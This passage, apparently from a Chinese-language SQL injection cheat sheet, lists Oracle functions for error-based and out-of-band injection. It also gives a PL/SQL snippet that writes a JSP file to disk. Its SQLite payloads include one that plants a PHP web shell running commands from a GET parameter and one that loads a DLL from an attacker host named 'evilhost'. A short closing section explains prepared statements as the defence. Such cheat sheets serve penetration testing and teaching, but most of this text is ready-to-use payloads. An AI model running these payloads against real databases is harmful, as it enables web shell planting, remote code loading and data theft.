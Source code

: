   - `XMLType`
  - `dbms_xdb_version.checkin`
  - `dbms_xdb_version.makeversioned`
  - `dbms_xdb_version.uncheckout`
  - `dbms_utility.sqlid_to_sqlhash`
  - `ordsys.ord_dicom.getmappingxpath`
  - `utl_inaddr.get_host_name`
  - `utl_inaddr.get_host_address`
- OOB
  - `utl_http.request`
  - `utl_inaddr.get_host_address`
  - `SYS.DBMS_LDAP.INIT`
  - `HTTPURITYPE`
  - `HTTP_URITYPE.GETCLOB`
- 绕过
  - `rawtohex`
  
##### 2. 写文件
```sql
create or replace directory TEST_DIR as '/path/to/dir';
grant read, write on directory TEST_DIR to system;
declare
   isto_file utl_file.file_type;
begin
   isto_file := utl_file.fopen('TEST_DIR', 'test.jsp', 'W');
   utl_file.put_line(isto_file, '<% out.println("test"); %>');
   utl_file.fflush(isto_file);
   utl_file.fclose(isto_file);
end;
```

#### 5. SQLite3 Payload
- Comment
  - `--`
  - `/**/`
- Version
  - `select sqlite_version()`

Command Execution
```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ('<?system($_GET['cmd']); ?>');--
```
Load_extension
`UNION SELECT 1,load_extension('\\evilhost\evil.dll','E');--`

### 8. 预编译
#### 1. 简介
SQL注入式因为解析器将传入的数据当成命令执行而导致的, 预编译是用于解决这个问题的一种方法。和普通的执行流程不同，预编译将一次查询通过两次交互完成，第一次交互发送查询语句的模板，由后端的SQL引擎进行解析为AST或Opcode，第二次交互发送数据，代入AST或Opcode中执行。因为此时语法解析已经完成，所以不会再出现混淆数据和代码的过程。
